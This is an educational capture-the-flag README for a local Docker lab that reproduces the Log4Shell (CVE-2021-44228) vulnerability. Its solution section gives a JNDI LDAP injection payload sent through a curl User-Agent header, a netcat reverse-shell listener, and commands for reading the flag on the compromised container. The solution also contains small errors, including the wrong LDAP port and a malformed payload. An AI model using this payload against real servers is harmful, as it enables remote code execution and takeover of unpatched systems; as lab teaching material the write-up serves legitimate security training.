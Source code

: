 This repo is to be used for educational purposes only, and is intended to be run against your own machine. We do not condone the use of these skills/techniques outside of this lab environment. DO NOT change any files or commands; run exactly as described in “Starting the Lab Environment".


**Scenario**

A local kitten daycare has recently suffered a zero-day exploit resulting in full system compromise via RCE (remote code execution). A digital forensics team investigating the incident has created a LAB environment meant to serve as a proof-of-concept for what happened. Can you replicate what happened that fateful day for the local kitten daycare?



**Pre-Requisites**
1.    Docker Desktop – https://www.docker.com/products/docker-desktop/ 
2.    Git – https://git-scm.com/book/en/v2/Getting-Started-Installing-Git 



**Starting the Lab Environment**

1.    Open Docker Desktop 
2.    Run '**git clone https://github.com/sgwgsw/Rowdyhacks2022-CTF.git**' in a terminal window.
3.    Change to the Rowdyhacks2022-CTF folder and run '**docker compose up -d**' with admin/sudo privileges. This is done on your local machine, not Docker Desktop.
4.    Once the command has finished running, select 'Containers / Apps' in Docker Desktop to confirm all containers in the stack are running


**Hints**

1.    To start a Docker CLI session, hover over the container in 'Containers / Apps' on Docker Desktop and click the 'CLI' button. **DO NOT open CLI sessions by other means.**
2.    You will not need a CLI session on web_server (remember - this would be the victim's web server which we are trying to hack. An attacker wouldn't have access to this system).  
3.    Use '**ping -c 1 <container_hostname>**' to get the IP of any container. Hostnames are: web_server, http_server, ldap_server, c2_instance, curl_instance
4.    The web_server container is running a Tomcat web server instance 8080. Log4j 2.14.0 is in-use.
5.    The curl_instance container will be useful for sending the exploit.
6.    The c2_instance container has netcact. 
7.    The ldap_server container is hosting the reference object, 'Exploit'.
8.    The http_server container is hosting compiled java code. This code wants to communicate on port 9999. 



**WHEN YOU ARE FINISHED**
1.    Close any CLI/terminal sessions
2.    Click the stop button in 'Containers / Apps' on Docker Desktop
3.    Run 'docker system prune -a' on the host machine, and press 'y' when prompted
4.    Delete the cloned Log4j_LAB-Docker repo/folder on your machine


**Solution** - 

There are several approaches to solving this CTF. Here is one successful approach to our CVE-2021-44228 challenge. 

1.    Open a CLI session on the curl_instance container. Do this through Docker Desktop by selecting the ‘CLI’ button next to the curl_instance container.

2.    Open a CLI session on the c2_instance container.

3.    Run ‘ping -c 1 web_server’ in curl_instance or c2_instance to get the IP address of the vulnerable web server. 

4.    In c2_instance, run ‘nc -nlvp 9999’. The instructions stated that the compiled java code would want to talk on port 9999. We need to open a listener on that port to receive the java code, which is a reverse shell. 

5.    In curl_instance, we will send the exploit payload. Run ‘curl -A “\{jndi:ldap://ldap_server:1389/Exploit” http://<web_server_IP>:8080’, where <web_server_IP> is the IP address recovered from step 3 above. [1] When this payload is received by web_server, instead of Log4J logging the header it will make a connection to ldap_server on port 8080, asking for the Exploit reference object. [2] ldap_sever then queries the reference object which links out to http_server hosting the java code. [3] The reverse shell is sent to web_server and opened on c2_instance. 

6.    Run ‘find / -name flag.txt’ in c2_instance, which is now a reverse shell executing these commands on web_server. 

7.    Run ‘cat /usr/local/tomcat/flag.txt’ to print the flag. This location will be output from step 6 above. 

